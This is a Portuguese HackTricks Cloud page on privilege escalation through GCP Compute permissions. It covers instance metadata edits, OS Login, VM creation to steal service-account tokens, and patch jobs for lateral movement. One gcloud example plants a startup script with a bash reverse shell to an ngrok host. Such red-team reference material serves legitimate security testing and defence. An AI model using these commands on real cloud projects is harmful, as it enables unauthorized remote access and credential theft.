 # GCP - Escalação de Privilégios de Computação

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Computação

Para obter mais informações sobre Computação e VPC (rede) no GCP, verifique:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Observe que para realizar todos os ataques de escalonamento de privilégios que exigem modificar os metadados da instância (como adicionar novos usuários e chaves SSH) é **necessário ter permissões `actAs` sobre o SA anexado à instância**, mesmo que o SA já esteja anexado!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Com essa permissão, você pode **modificar** as informações de **metadados** de uma **instância** e alterar as **chaves autorizadas de um usuário**, ou **criar** um **novo usuário com permissões de sudo**. Portanto, você poderá executar via SSH em qualquer instância de VM e roubar a Conta de Serviço do GCP com a qual a Instância está sendo executada.\
Limitações:

* Observe que as Contas de Serviço do GCP em execução em instâncias de VM por padrão têm um **escopo muito limitado**
* Você precisará ser **capaz de entrar em contato com o servidor SSH** para fazer login

Para obter mais informações sobre como explorar essa permissão, verifique:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Você também poderia realizar esse ataque adicionando um novo script de inicialização e reiniciando a instância:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Esta permissão concede os **mesmos privilégios que a permissão anterior**, mas em instâncias específicas em vez de todo o projeto. **Os mesmos exploits e limitações da seção anterior se aplicam**.

### `compute.instances.setIamPolicy`

Esse tipo de permissão permitirá que você **conceda a si mesmo uma função com as permissões anteriores** e escalone privilégios abusando delas.

### **`compute.instances.osLogin`**

Se o **OSLogin estiver ativado na instância**, com essa permissão você pode simplesmente executar **`gcloud compute ssh [INSTÂNCIA]`** e se conectar à instância. Você **não terá privilégios de root** dentro da instância.

### **`compute.instances.osAdminLogin`**

Se o **OSLogin estiver ativado na instância**, com essa permissão você pode simplesmente executar **`gcloud compute ssh [INSTÂNCIA]`** e se conectar à instância. Você terá **privilégios de root** dentro da instância.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

É possível **criar uma máquina virtual com uma Conta de Serviço atribuída e roubar o token** da conta de serviço acessando os metadados para escalar privilégios para ela.

O script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se você tiver as permissões **`osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`** você pode criar um [**trabalho de patch ou implantação**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Isso permitirá que você se mova lateralmente no ambiente e ganhe execução de código em todas as instâncias de computação dentro de um projeto.

Se você deseja explorar manualmente isso, precisará criar um [trabalho de patch](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) ou [implantação](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) para um trabalho de patch execute:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Para implantar uma implantação de patch:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Ferramentas automatizadas como [patchy](https://github.com/rek7/patchy) existem para detectar permissões frouxas e se mover lateralmente automaticamente.

**Você também pode abusar disso para persistência.**

### `compute.machineImages.setIamPolicy`

**Conceda a si mesmo permissões extras** para Imagem de Computação.

### `compute.snapshots.setIamPolicy`

**Conceda a si mesmo permissões extras** para um snapshot de disco.

### `compute.disks.setIamPolicy`

**Conceda a si mesmo permissões extras** para um disco.

### Bypass de Escopos de Acesso

Seguindo este link você encontra algumas [**ideias para tentar burlar os escopos de acesso**](../).

### Escalação de Privilégios Local na Instância de Computação GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referências

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
